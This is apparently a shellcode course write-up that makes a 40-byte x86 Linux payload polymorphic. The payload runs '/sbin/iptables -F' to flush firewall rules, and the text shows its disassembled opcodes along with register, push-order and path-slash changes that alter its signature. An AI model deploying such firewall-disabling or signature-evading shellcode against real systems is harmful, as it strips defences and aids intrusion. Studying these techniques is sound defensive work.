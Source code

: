 ### The original shellcode
The size of the shellcode is 40 bytes.
```nasm
08048080 <_start>:
8048080:	6a 0b                	push   0xb        ; 
8048082:	58                   	pop    eax        ; eax = 11 (execve)
8048083:	99                   	cdq               ; edx = 0 (eax extend)
8048084:	52                   	push   edx        ; push null byte to stack
8048085:	66 68 2d 46          	pushw  0x462d     ; "F-"
8048089:	89 e1                	mov    ecx,esp    ; ecx = pointer to "-F"
804808b:	52                   	push   edx        ; push null byte to stack
804808c:	66 68 65 73          	pushw  0x7365     ; "se"
8048090:	68 74 61 62 6c       	push   0x6c626174 ; "lbat"
8048095:	68 6e 2f 69 70       	push   0x70692f6e ; "pi/n"
804809a:	68 2f 73 62 69       	push   0x6962732f ; "ibs/"
804809f:	89 e3                	mov    ebx,esp    ; ebx = /sbin/iptables
80480a1:	52                   	push   edx        ; push edx (\0)
80480a2:	51                   	push   ecx        ; push ecx (-F)
80480a3:	53                   	push   ebx        ; push ebx (/sbin/iptables)
80480a4:	89 e1                	mov    ecx,esp    ; ecx = pointer to stack
80480a6:	cd 80                	int    0x80       ; execve
```

### The changes
In this example the changes are made by doing three things different: Changing registers used, changing order in which strings are pushed to the stack, and changing the program path by adding in some slashes.

#### Changing registers
EDX is no longer used in the new shellcode and instead EAX is used to push null bytes.  At the very end we re-use this register to indirectly push 11 into it.
```nasm
xor eax,eax
...
mov ax,0xa
inc ax
```

#### Changing order of pushes
The original shellcode pushed in the expected order of "-F" then "/sbin/iptables".  In the new version this is flipped but of course, in the end we still must push the pointers to the strings in the proper order and that cannot change.

#### Changing program path
Finally, we change the program path from "/sbin/iptables" to "//sbin//iptables".  We can add as many slashes as we want and this has no effect on things executing properly.  Performing this small action changes the opcodes.

Before:
```nasm
66 68 65 73          	pushw  0x7365
68 74 61 62 6c       	push   0x6c626174
68 6e 2f 69 70       	push   0x70692f6e
68 2f 73 62 69       	push   0x6962732f
```
After:
```nasm
68 62 6c 65 73       	push   0x73656c62
68 69 70 74 61       	push   0x61747069
68 69 6e 2f 2f       	push   0x2f2f6e69
68 2f 2f 73 62       	push   0x62732f2f
```
